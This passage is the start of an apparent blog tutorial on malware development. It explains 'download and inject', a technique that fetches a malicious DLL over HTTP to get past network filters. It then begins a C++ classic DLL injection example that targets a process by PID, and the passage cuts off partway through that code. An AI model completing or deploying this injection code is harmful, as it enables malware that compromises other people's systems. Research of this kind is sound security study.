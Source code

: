 ```yaml
---
title:  "Malware development tricks. Download and inject logic. C++ example."
date:   2022-04-15 09:00:00 +0600
header:
  teaser: "/assets/images/50/2022-04-13_18-17.png"
categories:
  - tutorial
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/50/2022-04-13_18-17.png){:class="img-responsive"}    

This post is the result of my own research into interesting trick in real-life malware.    

### download and execute

*Download and execute* or in our case *download and inject* is interesting trick and designed to download payload or evil DLL from a url, with an emphasis on  `http`, and execute or inject it. The benefits to the *download/execute* (or *download/inject*) approach are that it can be used behind networks that filter all other traffic aside from HTTP. It can even work through a pre-configured proxy given that said proxy does not require authentication information.    

### practical example

First of all, let's go to consider [classic DLL injection](/tutorial/2021/09/20/malware-injection-2.html) malware. In the simplest case it will look like this:    

```cpp
/*
* classic DLL injection example
* author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process pid
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
```